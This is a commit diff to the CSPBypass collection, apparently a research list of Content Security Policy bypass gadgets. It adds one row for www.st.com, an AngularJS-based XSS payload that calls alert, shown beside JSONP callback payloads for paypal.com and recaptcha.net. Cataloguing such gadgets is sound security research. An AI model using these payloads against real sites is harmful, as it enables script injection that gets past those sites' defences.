

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
Added www.st.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -146,2 +146,3 @@ www.microsoft.com	<script src="https://www.microsoft.com/en-us/research/wp-json?
 www.paypal.com	<script src="https://www.paypal.com/checkoutnow/remembered?callback=alert"></script>
+www.st.com	<body ng-app ng-csp><script src="https://www.st.com/etc/clientlibs/st-search-cx/stangularjs.min.d9f5c8180af41b5cae710870b6b018fe.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
 www.recaptcha.net	<script src="https://www.recaptcha.net/recaptcha/api.js?onload=alert"></script>
```
